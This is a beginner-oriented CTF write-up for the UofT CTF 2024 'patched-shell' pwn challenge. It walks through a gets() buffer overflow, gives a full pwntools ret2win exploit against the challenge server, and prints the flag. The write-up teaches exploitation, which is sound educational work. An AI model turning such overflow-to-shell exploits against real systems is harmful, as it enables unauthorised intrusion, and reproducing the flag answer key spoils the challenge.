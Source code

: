 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 250
solves: 199
tags: UofT-CTF-2024 pwn pwn/ret2win pwn/buffer-overflow
date: 2024-1-15
comments: false
---
```


Okay, okay. So you were smart enough to do basic overflow huh...  

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

Author: drec  
`nc 34.134.173.142 5000`  
[patched-shell](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/patched-shell)  

---

### Disclaimer
Most of this challenge was pretty much identical to basic-overflow. Skip towards the end if you already solved basic-overflow or read a writeup for it.  

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  system("/bin/sh");
  return;
}
```

So this seems to be what's changed. But... doesn't this still pop a shell? Hm. Let's try thes same solution as in basic-overflow, i.e. overriding the return address with the address of the shell function.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

However, this doesn't actually work. I wasn't sure why it wasn't working, and spent 30 minutes just trying to look for a solution online. Turns out I'm stupid! The stack offset just becomes unaligned if we return to the first instruction of shell(), i.e. `push rbp`, so it will work just fine if we add 1 to the address of shell, thus returning to the next instruction instead and avoiding the push instruction.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'] + 1) # only change
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{patched_the_wrong_function}